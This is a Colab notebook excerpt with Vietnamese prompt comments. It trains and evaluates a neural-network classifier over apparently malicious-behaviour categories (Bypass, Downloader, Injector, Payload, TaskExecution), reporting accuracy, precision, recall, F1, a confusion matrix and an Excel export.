plt.gca().spines[['top', 'right']].set_visible(False)

<string>:5: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `y` variable to `hue` and set `legend=False` for the same effect.



from matplotlib import pyplot as plt
import seaborn as sns
figsize = (12, 1.2 * len(results_df['Metric'].unique()))
plt.figure(figsize=figsize)
sns.violinplot(results_df, x='Value', y='Metric', inner='stick', palette='Dark2')
sns.despine(top=True, right=True, bottom=True, left=True)

In [ ]:
# prompt: tính các chỉ số accuracy, loss, precesion, recall, f1

from sklearn.metrics import precision_score, recall_score, f1_score

# ... (Your existing code) ...

# Huấn luyện mô hình
history = model.fit(X_train, y_train, epochs=10, validation_data=(X_test, y_test), callbacks=[early_stopping])

# Dự đoán trên tập kiểm tra
y_pred = model.predict(X_test)

# Chuyển đổi dự đoán thành nhãn lớp
y_pred_classes = np.argmax(y_pred, axis=1)
y_true_classes = np.argmax(y_test, axis=1)


# Đánh giá mô hình
loss, accuracy = model.evaluate(X_test, y_test, verbose=0)
print(f"Loss: {loss}")
print(f"Accuracy: {accuracy}")


# Tính toán precision, recall, và F1-score
precision = precision_score(y_true_classes, y_pred_classes, average='weighted')
recall = recall_score(y_true_classes, y_pred_classes, average='weighted')
f1 = f1_score(y_true_classes, y_pred_classes, average='weighted')

print(f"Precision: {precision}")
print(f"Recall: {recall}")
print(f"F1 Score: {f1}")

Epoch 1/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 11s 122ms/step - accuracy: 0.9824 - loss: 0.2785 - val_accuracy: 0.9880 - val_loss: 0.2461
Epoch 2/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 4s 47ms/step - accuracy: 0.9671 - loss: 0.3249 - val_accuracy: 0.4579 - val_loss: 1.4142
Epoch 3/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 5s 47ms/step - accuracy: 0.6042 - loss: 1.1876 - val_accuracy: 0.8745 - val_loss: 0.7588
Epoch 4/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 71ms/step - accuracy: 0.9347 - loss: 0.4961 - val_accuracy: 0.9907 - val_loss: 0.2886
Epoch 5/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 46ms/step - accuracy: 0.9895 - loss: 0.2947 - val_accuracy: 0.9880 - val_loss: 0.2512
Epoch 6/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 68ms/step - accuracy: 0.9893 - loss: 0.2526 - val_accuracy: 0.9840 - val_loss: 0.2738
24/24 ━━━━━━━━━━━━━━━━━━━━ 0s 13ms/step
Loss: 0.24614658951759338
Accuracy: 0.9879840016365051
Precision: 0.9801419302976936
Recall: 0.9879839786381842
F1 Score: 0.9840335366827717


/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))


Epoch 1/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 76ms/step - accuracy: 0.9953 - loss: 0.2276 - val_accuracy: 0.9933 - val_loss: 0.2258
Epoch 2/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 10s 75ms/step - accuracy: 0.9927 - loss: 0.2184 - val_accuracy: 0.9880 - val_loss: 0.2136
Epoch 3/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 62ms/step - accuracy: 0.9894 - loss: 0.2121 - val_accuracy: 0.9880 - val_loss: 0.2599
Epoch 4/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 4s 47ms/step - accuracy: 0.9908 - loss: 0.2050 - val_accuracy: 0.9826 - val_loss: 0.2028
Epoch 5/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 70ms/step - accuracy: 0.9910 - loss: 0.1919 - val_accuracy: 0.9907 - val_loss: 0.1811
Epoch 6/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 47ms/step - accuracy: 0.9942 - loss: 0.1683 - val_accuracy: 0.9880 - val_loss: 0.1970
Epoch 7/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 68ms/step - accuracy: 0.9913 - loss: 0.1698 - val_accuracy: 0.9826 - val_loss: 0.1874
Epoch 8/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 47ms/step - accuracy: 0.9940 - loss: 0.1589 - val_accuracy: 0.9907 - 

/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))




In [ ]:
# prompt: thể hiện thông số đánh giá cho từng loại output

from sklearn.metrics import precision_score, recall_score, f1_score

# ... (Your existing code) ...

# Huấn luyện mô hình
history = model.fit(X_train, y_train, epochs=10, validation_data=(X_test, y_test), callbacks=[early_stopping])

# Dự đoán trên tập kiểm tra
y_pred = model.predict(X_test)

# Chuyển đổi dự đoán thành nhãn lớp
y_pred_classes = np.argmax(y_pred, axis=1)
y_true_classes = np.argmax(y_test, axis=1)


# Đánh giá mô hình
loss, accuracy = model.evaluate(X_test, y_test, verbose=0)
print(f"Loss: {loss}")
print(f"Accuracy: {accuracy}")


# Tính toán precision, recall, và F1-score
precision = precision_score(y_true_classes, y_pred_classes, average='weighted')
recall = recall_score(y_true_classes, y_pred_classes, average='weighted')
f1 = f1_score(y_true_classes, y_pred_classes, average='weighted')

print(f"Precision: {precision}")
print(f"Recall: {recall}")
print(f"F1 Score: {f1}")

# Vẽ đồ thị biểu diễn sự thay đổi của độ chính xác và hàm mất mát theo số lần lặp
plt.figure(figsize=(12, 4))

plt.subplot(1, 2, 1)
plt.plot(history.history['accuracy'], label='Training Accuracy')
plt.plot(history.history['val_accuracy'], label='Validation Accuracy')
plt.xlabel('Epoch')
plt.ylabel('Accuracy')
plt.title('Model Accuracy')
plt.legend()

plt.subplot(1, 2, 2)
plt.plot(history.history['loss'], label='Training Loss')
plt.plot(history.history['val_loss'], label='Validation Loss')
plt.xlabel('Epoch')
plt.ylabel('Loss')
plt.title('Model Loss')
plt.legend()

plt.tight_layout()
plt.show()

In [ ]:
# prompt: in ra độ chính xác cho từng loại lable của y

from sklearn.metrics import classification_report

# ... (Your existing code) ...

# Huấn luyện mô hình
history = model.fit(X_train, y_train, epochs=10, validation_data=(X_test, y_test), callbacks=[early_stopping])

# Dự đoán trên tập kiểm tra
y_pred = model.predict(X_test)

# Chuyển đổi dự đoán thành nhãn lớp
y_pred_classes = np.argmax(y_pred, axis=1)
y_true_classes = np.argmax(y_test, axis=1)

# Đánh giá mô hình và in ra báo cáo phân loại chi tiết
print(classification_report(y_true_classes, y_pred_classes, target_names=lb.classes_))

Epoch 1/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 69ms/step - accuracy: 0.9859 - loss: 0.1784 - val_accuracy: 0.9907 - val_loss: 0.1616
Epoch 2/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 47ms/step - accuracy: 0.9897 - loss: 0.1632 - val_accuracy: 0.9813 - val_loss: 0.1588
Epoch 3/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 66ms/step - accuracy: 0.9873 - loss: 0.1589 - val_accuracy: 0.9880 - val_loss: 0.1405
Epoch 4/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 47ms/step - accuracy: 0.9885 - loss: 0.1488 - val_accuracy: 0.9880 - val_loss: 0.1535
Epoch 5/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 73ms/step - accuracy: 0.9899 - loss: 0.1514 - val_accuracy: 0.9880 - val_loss: 0.1361
Epoch 6/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 46ms/step - accuracy: 0.9922 - loss: 0.1205 - val_accuracy: 0.9880 - val_loss: 0.1322
Epoch 7/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 75ms/step - accuracy: 0.9872 - loss: 0.1430 - val_accuracy: 0.9866 - val_loss: 0.1708
Epoch 8/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 5s 54ms/step - accuracy: 0.9878 - loss: 0.1464 - val_accuracy: 0.9733 - v

/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))


In [ ]:
# prompt: tạo table lưu lại các kết quả này

from sklearn.metrics import classification_report, precision_score, recall_score, f1_score
import pandas as pd

# Assuming 'loss', 'accuracy', 'precision', 'recall', and 'f1' are calculated as in your original code

# Create a dictionary to store the results
results = {
    'Metric': ['Loss', 'Accuracy', 'Precision', 'Recall', 'F1 Score'],
    'Value': [loss, accuracy, precision, recall, f1]
}

# Create a pandas DataFrame from the results
results_df = pd.DataFrame(results)

# Display the DataFrame as a table
print(results_df)

# Print the detailed classification report
print("\nClassification Report:")
print(classification_report(y_true_classes, y_pred_classes, target_names=lb.classes_))

      Metric     Value
0       Loss  0.154004
1   Accuracy  0.990654
2  Precision  0.988053
3     Recall  0.990654
4   F1 Score  0.988879

Classification Report:
               precision    recall  f1-score   support

       Bypass       0.00      0.00      0.00         2
   Downloader       0.99      1.00      1.00       320
     Injector       1.00      1.00      1.00       343
      Payload       0.97      0.96      0.97        80
TaskExecution       1.00      1.00      1.00         4

     accuracy                           0.99       749
    macro avg       0.79      0.79      0.79       749
 weighted avg       0.99      0.99      0.99       749



/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))


In [ ]:
# prompt: tạo bảng excel ghi lại các thông tin về metric , value và classsification report

import pandas as pd
from sklearn.metrics import classification_report, precision_score, recall_score, f1_score
import openpyxl

# ... (Your existing code) ...

# Huấn luyện mô hình
history = model.fit(X_train, y_train, epochs=10, validation_data=(X_test, y_test), callbacks=[early_stopping])

# Dự đoán trên tập kiểm tra
y_pred = model.predict(X_test)

# Chuyển đổi dự đoán thành nhãn lớp
y_pred_classes = np.argmax(y_pred, axis=1)
y_true_classes = np.argmax(y_test, axis=1)

# Đánh giá mô hình
loss, accuracy = model.evaluate(X_test, y_test, verbose=0)
print(f"Loss: {loss}")
print(f"Accuracy: {accuracy}")

# Tính toán precision, recall, và F1-score
precision = precision_score(y_true_classes, y_pred_classes, average='weighted')
recall = recall_score(y_true_classes, y_pred_classes, average='weighted')
f1 = f1_score(y_true_classes, y_pred_classes, average='weighted')

print(f"Precision: {precision}")
print(f"Recall: {recall}")
print(f"F1 Score: {f1}")

# Báo cáo phân loại
report = classification_report(y_true_classes, y_pred_classes, target_names=lb.classes_, output_dict=True)

# Tạo DataFrame từ báo cáo phân loại
report_df = pd.DataFrame(report).transpose()


# Tạo DataFrame cho các metrics
results = {
    'Metric': ['Loss', 'Accuracy', 'Precision', 'Recall', 'F1 Score'],
    'Value': [loss, accuracy, precision, recall, f1]
}
results_df = pd.DataFrame(results)

# Kết hợp hai DataFrame
combined_df = pd.concat([results_df, report_df], ignore_index=True)


# Lưu vào file Excel
try:
    with pd.ExcelWriter('evaluation_metrics.xlsx', engine='openpyxl') as writer:
      combined_df.to_excel(writer, sheet_name='Metrics', index=False)
    print("Successfully saved evaluation metrics to 'evaluation_metrics.xlsx'")
except Exception as e:
    print(f"An error occurred: {e}")

Epoch 1/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 68ms/step - accuracy: 0.9929 - loss: 0.1004 - val_accuracy: 0.9907 - val_loss: 0.1061
Epoch 2/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 10s 63ms/step - accuracy: 0.9927 - loss: 0.1089 - val_accuracy: 0.4272 - val_loss: 21.2539
Epoch 3/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 9s 47ms/step - accuracy: 0.2773 - loss: 3.5083 - val_accuracy: 0.4579 - val_loss: 1.6875
Epoch 4/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 75ms/step - accuracy: 0.4487 - loss: 1.5404 - val_accuracy: 0.4579 - val_loss: 1.2142
Epoch 5/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 47ms/step - accuracy: 0.4644 - loss: 1.1834 - val_accuracy: 0.4579 - val_loss: 1.1387
Epoch 6/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 70ms/step - accuracy: 0.4768 - loss: 1.1228 - val_accuracy: 0.4579 - val_loss: 1.1275
24/24 ━━━━━━━━━━━━━━━━━━━━ 0s 12ms/step
Loss: 0.10606257617473602
Accuracy: 0.9906542301177979
Precision: 0.9880528793340814
Recall: 0.9906542056074766
F1 Score: 0.9888789362365655
Successfully saved evaluation metrics to 'evaluation_me

/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/m



               precision    recall  f1-score   support

       Bypass       0.00      0.00      0.00         2
   Downloader       0.98      1.00      0.99       320
     Injector       1.00      1.00      1.00       343
      Payload       0.97      0.96      0.97        80
TaskExecution       1.00      0.50      0.67         4

     accuracy                           0.99       749
    macro avg       0.79      0.69      0.73       749
 weighted avg       0.99      0.99      0.99       749



/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))
/usr/local/lib/python3.10/dist-packages/sklearn/metrics/_classification.py:1565: UndefinedMetricWarning: Precision is ill-defined and being set to 0.0 in labels with no predicted samples. Use `zero_division` parameter to control this behavior.
  _warn_prf(average, modifier, f"{metric.capitalize()} is", len(result))


In [ ]:
# prompt: visualize kết quả của từng loại label dự đoán

from sklearn.metrics import classification_report, confusion_matrix
import seaborn as sns

# ... (Your existing code) ...

# Huấn luyện mô hình
# history = model.fit(X_train, y_train, epochs=10, validation_data=(X_test, y_test), callbacks=[early_stopping])

# # Dự đoán trên tập kiểm tra
# y_pred = model.predict(X_test)

# # Chuyển đổi dự đoán thành nhãn lớp
# y_pred_classes = np.argmax(y_pred, axis=1)
# y_true_classes = np.argmax(y_test, axis=1)

# Ma trận nhầm lẫn
conf_matrix = confusion_matrix(y_true_classes, y_pred_classes)

# Vẽ biểu đồ nhiệt cho ma trận nhầm lẫn
plt.figure(figsize=(8, 6))
sns.heatmap(conf_matrix, annot=True, fmt='d', cmap='Blues',
            xticklabels=lb.classes_, yticklabels=lb.classes_)
plt.xlabel('Predicted Label')
plt.ylabel('True Label')
plt.title('Confusion Matrix')
plt.show()

# Báo cáo phân loại
print(classification_report(y_true_classes, y_pred_classes, target_names=lb.classes_))

In [ ]:
# prompt: tạo bảng excel ghi lại các thông tin

import pandas as pd
from sklearn.metrics import precision_score, recall_score, f1_score
import numpy as np

# Assuming you have already performed model training and have the following variables:
# X_test, y_test, y_pred, loss, accuracy, precision, recall, f1


# Create a list of dictionaries, where each dictionary represents a row in the Excel sheet
data_for_excel = []

# Append evaluation metrics
data_for_excel.append({
    "Metric": "Loss",
    "Value": loss
})
data_for_excel.append({
    "Metric": "Accuracy",
    "Value": accuracy
})
data_for_excel.append({
    "Metric": "Precision",
    "Value": precision
})
data_for_excel.append({
    "Metric": "Recall",
    "Value": recall
})
data_for_excel.append({
    "Metric": "F1 Score",
    "Value": f1
})


# Create a Pandas DataFrame from the list of dictionaries
df_results = pd.DataFrame(data_for_excel)


# Export the DataFrame to an Excel file
try:
    df_results.to_excel("model_evaluation_results.xlsx", index=False)  # Save as model_evaluation_results.xlsx
    print("Model evaluation results saved to 'model_evaluation_results.xlsx'")

    from google.colab import files
    files.download("model_evaluation_results.xlsx") # Download the file
except Exception as e:
    print(f"Error saving results to Excel: {e}")

Model evaluation results saved to 'model_evaluation_results.xlsx'


<IPython.core.display.Javascript object>

<IPython.core.display.Javascript object>

In [ ]:

# Đánh giá mô hình
loss, accuracy = model.evaluate(X_test, y_test, verbose=0)
precision = precision_score(y_test, y_pred, average='weighted')
recall = recall_score(y_test, y_pred, average='weighted')
# Tính toán F1 score và Recall
# Convert y_test to class indices if it's one-hot encoded
if y_test.ndim == 2 and y_test.shape[1] > 1:  # Check if y_test is one-hot encoded
    y_test_indices = np.argmax(y_test, axis=1)
else:
    y_test_indices = y_test  # If not one-hot encoded, use as is

f1 = f1_score(y_test_indices, y_pred, average='weighted')  # Use y_test_indices
recall = recall_score(y_test_indices, y_pred, average='weighted') # Use y_test_indices

NameError: name 'precision_score' is not defined

In [ ]:
# In kết quả
print(f"Loss: {loss:.4f}")
print(f"Accuracy: {accuracy:.4f}")
print(f"F1 score: {f1:.4f}")
print(f"Recall: {recall:.4f}")


Loss: 0.2738
Accuracy: 0.9866
F1 score: 0.9835
Recall: 0.9866


In [ ]:
# Train the model
model.fit(X_train, y_train, epochs=10)  # Adjust the number of epochs based on your needs

# Evaluate the model
loss, accuracy = model.evaluate(X_test, y_test, verbose=0)
print(f"Loss: {loss:.4f}")
print(f"Accuracy: {accuracy:.4f}")
print(f"F1 scorre: {f1_score(y_test, y_pred, average='weighted'):.4f}")

Epoch 1/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 18s 128ms/step - accuracy: 0.6240 - loss: 6.1628
Epoch 2/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 20s 118ms/step - accuracy: 0.9554 - loss: 2.0487
Epoch 3/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 21s 121ms/step - accuracy: 0.9892 - loss: 1.1696
Epoch 4/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 21s 126ms/step - accuracy: 0.9890 - loss: 0.8270
Epoch 5/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 18s 98ms/step - accuracy: 0.9774 - loss: 0.6766
Epoch 6/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 12s 116ms/step - accuracy: 0.9913 - loss: 0.5819
Epoch 7/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 21s 122ms/step - accuracy: 0.9853 - loss: 0.4844
Epoch 8/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 21s 125ms/step - accuracy: 0.9818 - loss: 0.5951
Epoch 9/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 18s 98ms/step - accuracy: 0.9926 - loss: 0.3837
Epoch 10/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 12s 126ms/step - accuracy: 0.9902 - loss: 0.3213
Loss: 0.2960
Accuracy: 0.9880


NameError: name 'f1_score' is not defined